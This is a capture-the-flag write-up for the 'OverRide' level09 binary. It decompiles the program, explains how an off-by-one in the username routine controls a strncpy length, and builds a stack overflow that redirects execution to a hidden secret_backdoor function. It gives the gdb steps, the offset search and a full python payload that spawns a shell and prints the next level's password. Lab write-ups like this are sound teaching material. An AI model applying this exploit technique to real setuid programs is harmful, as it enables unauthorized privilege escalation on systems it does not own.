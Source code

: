 # Solution

Information about the binary if we check the `file` command we will see that the binary is x86_64 and not x86:

```sh
level09@OverRide:~$ file level09
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

Here is the decompile C code:

```c
void secret_backdoor(void)
{
    char s[128];

    fgets(s, 128, stdin);
    system(s);
}

void    set_msg(char *buffer)
{
    char s[1024];

    memset(s, 0, sizeof(s));
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(s, 1024, stdin);
    strncpy(buffer, s, *(int *)(buffer + 180));
}

void    set_username(char *buffer)
{
    char s[140];
    int i;

    memset(s, 0, 0x80uLL);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(s, 128, stdin);
    for ( i = 0; i <= 40 && s[i]; ++i )
        *(unsigned char *)(buffer + i + 140) = s[i];
    printf(">: Welcome, %s", (const char *)(buffer + 140));
}

void    handle_msg(void)
{
    char buffer[140];

    set_username(buffer);
    set_msg(buffer);
    puts(">: Msg sent!");
}


int main(void)
{
    puts(
            "--------------------------------------------\n"
            "|   ~Welcome to l33t-m$n ~    v1337        |\n"
            "--------------------------------------------");
    handle_msg();
    return 0;
}

```
This one is quit tricky and easy to not see the exploit here is the line that is dangerous:

```c
strncpy(buffer, s, *(int *)(buffer + 180));
```

So it's inside the `set_msg()` function which is called inside the `handle_msg()` function,
the `buffer + 180` is actually under our control inside we have to look at the `set_username()` function first:

```c
void    set_username(char *buffer)
{
    char s[140];
    int i;

    memset(s, 0, 0x80uLL);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(s, 128, stdin);
    for ( i = 0; i <= 40 && s[i]; ++i )
        *(unsigned char *)(buffer + i + 140) = s[i];
    printf(">: Welcome, %s", (const char *)(buffer + 140));
}

void    handle_msg(void)
{
    char buffer[140];

    set_username(buffer);
    set_msg(buffer);
    puts(">: Msg sent!");
}
```

So the `set_username()` function is using the handle_msg `buffer` variable as argument,
to write 40 byte starting at the `index 140` which if you look at the `buffer variable` in handle_msg function,
is clearly an overflow so in the `set_username()` function it will use a stack buffer named `s` and will get input from user,
via `fgets()` call which then will use the only 40 first byte of the `s` input even though you can store 128 only 40 will be used.

From here we have to look at the `set_msg()` function to understand why the `strncpy()` call is where the exploit start:

```c
void    set_msg(char *buffer)
{
    char s[1024];

    memset(s, 0, sizeof(s));
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(s, 1024, stdin);
    strncpy(buffer, s, *(int *)(buffer + 180));
}
```

You could see here we also have a stack buffer called `s` we also fetch the input from the user via `fgets()` call,
but the `strncpy()` parameter is what we are interested in for the exploit.

Here is function call with parameter `strncpy(buffer, s, *(int *)(buffer + 180))` the third parameter is the reason of the exploit,
so the exploit is a simple overwrite of the return address by the address of function `secret_backdoor()`.

The issue with the third parameter in `strncpy()` is that we can control that parameter allowing us to overflow the `buffer` which max capacity is 140 byte,
so the goal here will be to pass byte `\xff` which is equal in decimal as 255 allowing us to overwrite the return address.

First let's test that theory and find the offset that will overwrite the value let's start `gdb-gef` and find those information:

```sh
# let's break at the first call of fgets inside the set_username function
gef➤  b *set_username+107
```

```sh
# now continue until hitting the breakpoint and pass the fgets call
gef➤  c
Continuing.
>: Enter your username

Breakpoint 3, 0x0000555555400a38 in set_username ()
```

```sh
# from here we need to pass the fgets and go to the next instruction and use call inside gdb to provide the payload
gef➤  ni
>>:
0x0000555555400a3d in set_username ()

   0x555555400a35 <set_username+0068> mov    rdi, rax
●  0x555555400a38 <set_username+006b> call   0x555555400770 <fgets@plt>
 → 0x555555400a3d <set_username+0070> mov    DWORD PTR [rbp-0x4], 0x0
   0x555555400a44 <set_username+0077> jmp    0x555555400a6a <set_username+157>
# now we need to use call memcpy at the address of the buffer which is store in rax register
gef➤  x/xg $rax
0x7fffffffd7a0: 0x000000000000000a
gef➤  call (void *)memcpy(0x7fffffffd7a0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xff\xff", 41)
$10 = (void *) 0x7fffffffd7a0
```

Why are we using two `\xff\xff` and writing 41 byte, because of the `\n` that will be present to avoid having,
`0a` as last value and to force the `\xff` as last value.

So now we have the proper payload inside the buffer let's see if we actually manage to control the third parameter,
this is pretty simple we will check if the index 180 is set we the proper value which should be `0xff` or `255` in decimal.

```sh
# this buffer variable inside handle_msg() function
gef➤  x/xw $rbp-0xc0+180
0x7fffffffd8f4: 0x000000ff
```

So yes this works nice now we need to find the offset that will overwrite the return address let's use a de brujin string.

```sh
# now we create the pattern and break at the next fgets call which is inside the set_msg() function.
gef➤  pattern create 250
[+] Generating a pattern of 250 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabga
[+] Saved as '$_gef0'
gef➤  b *set_msg+107
```

Now let's pass the de brujin string that we generated as input to fgets

```sh
gef➤  x/xg $rbp+0x8
0x7fffffffd908: 0x626161616161617a
gef➤  pattern search 0x626161616161617a
[+] Searching for '7a61616161616162'/'626161616161617a' with period=8
[+] Found at offset 200 (little-endian search) likely
```

So the offset to overwrite the address is at the position 200 now let's pack the address of `secret_backdoor()` function,
this will give us `\x8cHUUUU\x00\x00` which is the address for x86_64 of `secret_backdoor()` now we just need to check a the `secret_backdoor()` function before,

```c
int secret_backdoor(void)
{
    char s[128];

    fgets(s, 128, stdin);
    return system(s);
}
```

As you can see it's also expecting and input from the user and will use the buffer as parameter to the `system()` function,
so let's provide "/bin/sh" to start a shell.


Here is the payload and result of it:
```sh
level09@OverRide:~$ (python -c 'print "A"*39+"\xff\xff"'; python -c 'print "A"*200+"\x8cHUUUU\x00\x00"'; python -c 'print "/bin/sh"'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude
>>: >: Msg sent!



ls -l
ls: cannot open directory .: Permission denied
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

We managed to start a shell and fetch the flag and finished OverRide !
